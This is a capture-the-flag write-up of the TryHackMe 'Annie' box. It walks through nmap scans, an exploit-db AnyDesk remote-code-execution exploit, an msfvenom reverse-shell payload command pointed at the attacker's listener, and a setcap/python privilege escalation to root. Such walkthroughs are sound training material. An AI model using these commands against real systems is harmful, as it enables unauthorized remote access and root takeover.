

# TryHackme - Annie

## User

I started with an initial nmap scan to see which ports are open.

`nmap -v -Pn -sV -T4 <IP>`


We get to see an SSH service and something unknown on port 7070.
Then let's scan again a bit more closely to get some more information.

`nmap -v -p22,7070 -sV --version-all -sC <IP>`


With the `-sC` switch of `nmap` we get more useful information and we see that there is an `AnyDesk client` running.
So I did some research and looked if there are exploits for Anydesk.
On [exploit-db.com](https://www.exploit-db.com/exploits/49613) I quickly found a RCE exploit.


In the exploit we see commented that we need to change the shellcode.

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode`

So I started to set the msfvenom command with my IP and the port of my listener and exchange the shellcode with the one in the script.
Then I set the script to port 7070 and the IP of the box, but it didn't work.
I went through the exploit code again in more detail line by line.
The fact that the socket is programmed to UDP (`s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM`) gave me the idea to scan the usual AnyDesk port for UDP.
I got the following result.



So I set the port in the exploit script back to 50001 and tried again.
Finally I got a shell at my listener.
We are logged in as user annie and get the user flag.


## PrivEsc

With the Privilege Escalation I knew quickly what to do.
I started with some basic enumerations and when looking for SUID files `/sbin/setcap` immediately jumped into my eyes.


With the SUID bit set to `setcap` we can give capability to other files.
More about this here: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

With the following commands i got root.

```bash
$setcap cap_setuid+ep /usr/bin/python3.6`
$/usr/bin/python3.6  -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

